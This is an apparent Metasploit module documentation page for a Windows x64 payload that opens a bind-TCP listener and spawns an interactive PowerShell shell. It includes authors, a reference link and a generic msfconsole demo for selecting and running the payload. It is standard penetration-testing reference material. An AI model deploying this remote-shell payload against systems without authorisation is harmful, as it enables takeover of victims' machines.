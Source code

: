 ## Windows Interactive Powershell Session, Bind TCP

Listen for a connection and spawn an interactive powershell 
session


## Module Name
payload/windows/x64/powershell_bind_tcp

## Authors
* Ben Turner
* Dave Hardy
* sf


## References
* https://www.nettitude.co.uk/interactive-powershell-session-via-metasploit/




## Platforms
* win

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/windows/x64/powershell_bind_tcp
msf payload(powershell_bind_tcp) > show targets
   ... a list of targets ...
msf payload(powershell_bind_tcp) > set TARGET <target-id>
msf payload(powershell_bind_tcp) > show options
   ... show and set options ...
msf payload(powershell_bind_tcp) > run
```
    
    